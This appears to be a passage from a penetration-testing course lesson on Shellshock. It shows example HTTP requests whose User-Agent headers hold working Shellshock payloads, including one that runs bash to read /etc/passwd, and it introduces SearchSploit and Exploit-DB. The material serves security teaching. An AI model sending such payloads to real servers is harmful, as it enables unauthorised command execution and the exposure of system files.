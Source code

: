   ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
  ```

Some malicious codes can open TCP connections back to your machine or show user passwords.

   - For example: 

   ```bash
   GET /index.html HTTP/1.1
   Host: example.com
   User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'
   Connection: keep-alive
   ```

Note the syntax. Shellshock payloads are often executed with the following template:

- `/bin/bash -c 'command'` runs the string `'command'` as a Bash command. This is different from passing a command directly because of how Bash handles the output. 

- Using `/bin/bash -c` helps preserve `stdout` more consistently.

Take a moment to address any remaining questions before proceeding.


### 02. Shellshock Payloads Activity

- [Activity File: Shellshock Payloads](activities/02_Shellshock_Payload/Unsolved/README.md)


### 03. Shellshock Payloads Activity 



- [Solution Guide: Shellshock Payloads](activities/02_Shellshock_Payload/Solved/README.md)


### 04.  SearchSploit 

In the previous activity we created a custom payload for Shellshock. In this section, we will explore tools that allow us to search for and find existing exploit information from libraries. 

Today we will use a tool called **SearchSploit** to locally store a library of exploit information on our Kali machine, as well as the scripts needed to execute the exploits. 

**Exploit Database (Exploit-DB)** is a popular online database that contains publicly disclosed exploits, cataloged according to their Common Vulnerability and Exposure (CVEs) identifier.

- For example, Oracle Global Desktop 4.61.915 is an exploit listed on the Exploit-DB website.

   ![Exploit-DB](Images/EXPLOIT_DB.png)
